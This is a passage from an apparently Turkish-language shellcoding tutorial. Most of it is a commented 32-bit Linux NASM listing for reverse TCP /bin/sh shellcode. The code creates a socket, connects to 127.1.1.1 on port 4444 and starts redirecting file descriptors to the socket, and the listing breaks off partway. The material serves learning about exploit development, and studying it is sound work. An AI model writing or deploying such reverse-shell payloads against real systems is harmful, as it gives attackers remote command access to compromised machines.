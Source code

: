 Gördüğünüz gibi, `/bin//sh` dizgisi için sonlandırıcı `NULL`'u ayrı olarak yığına itmemiz gerekiyor, çünkü kullanabileceğimiz bir `NULL` zaten mevcut değil.    

Böylece işimiz bitmiş oluyor.       

### son tam kabuk kodu

Tam, yorumlanmış kabuk kodum:
```nasm
; run reverse TCP /bin/sh and normal exit
; author @cocomelonc
; nasm -f elf32 -o rev.o rev.asm
; ld -m elf_i386 -o rev rev.o && ./rev
; 32-bit linux

section .bss

section .text
  global _start   ; must be declared for linker

_start:           ; linker entry point

  ; create socket
  ; int socketcall(int call, unsigned long *args);
  push 0x66        ; sys_socketcall 102
  pop  eax         ; zero out eax
  push 0x1         ; sys_socket 0x1
  pop  ebx         ; zero out ebx
  xor  edx, edx    ; zero out edx

  ; int socket(int domain, int type, int protocol);
  push edx         ; protocol = IPPROTO_IP (0x0)
  push ebx         ; socket_type = SOCK_STREAM (0x1)
  push 0x2         ; socket_family = AF_INET (0x2)
  mov  ecx, esp    ; move stack pointer to ecx
  int  0x80        ; syscall (exec sys_socket)
  xchg edx, eax    ; save result (sockfd) for later usage

  ; int socketcall(int call, unsigned long *args);
  mov  al, 0x66    ; socketcall 102

  ; int connect(int sockfd, const struct sockaddr *addr,
  ; socklen_t addrlen);
  push 0x0101017f  ; sin_addr = 127.1.1.1 
                   ; (network byte order)
  push word 0x5c11 ; sin_port = 4444
  inc  ebx         ; ebx = 0x02
  push word bx     ; sin_family = AF_INET
  mov  ecx, esp    ; move stack pointer to sockaddr struct

  push 0x10        ; addrlen = 16
  push ecx         ; const struct sockaddr *addr
  push edx         ; sockfd
  mov  ecx, esp    ; move stack pointer to ecx (sockaddr_in struct)
  inc  ebx         ; sys_connect (0x3)
  int  0x80        ; syscall (exec sys_connect)

  ; int socketcall(int call, unsigned long *args);
  ; duplicate the file descriptor for
  ; the socket into stdin, stdout, and stderr
  ; dup2(sockfd, i); i = 1, 2, 3
  push 0x2         ; set counter to 2
  pop  ecx         ; zero to ecx (reset for newfd loop)
  xchg ebx, edx    ; save sockfd
```